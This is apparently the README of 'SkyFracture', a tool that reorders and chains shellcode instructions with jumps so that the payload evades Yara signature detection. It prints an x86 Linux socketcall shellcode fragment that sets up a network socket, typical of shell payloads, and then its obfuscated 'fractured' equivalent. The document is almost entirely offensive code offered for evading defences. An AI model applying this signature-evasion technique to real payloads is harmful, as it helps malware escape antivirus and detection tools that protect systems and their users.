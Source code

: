 # SkyFracture
Reorders and chains shellcode instruction so they evade Yara signatures

ORIGINAL SNIPPET

0:  5b                      pop    ebx
1:  5e                      pop    esi
2:  52                      push   edx
3:  68 02 00 bf bf          push   0xbfbf0002
8:  6a 10                   push   0x10
a:  51                      push   ecx
b:  50                      push   eax
c:  89 e1                   mov    ecx,esp
e:  6a 66                   push   0x66
10: 58                      pop    eax
11: cd 80                   int    0x80

FRACTURED SNIPPET

0:  5b                      pop    ebx
1:  5e                      pop    esi
2:  52                      push   edx
3:  68 02 00 bf bf          push   0xbfbf0002
8:  e9 0b 00 00 00          jmp    0x18
d:  6a 66                   push   0x66
f:  58                      pop    eax
10: cd 80                   int    0x80
12: 90                      nop
13: e9 0b 00 00 00          jmp    0x23
18: 6a 10                   push   0x10
1a: 51                      push   ecx
1b: 50                      push   eax
1c: 89 e1                   mov    ecx,esp
1e: e9 ea ff ff ff          jmp    0xd
23: 90                      nop

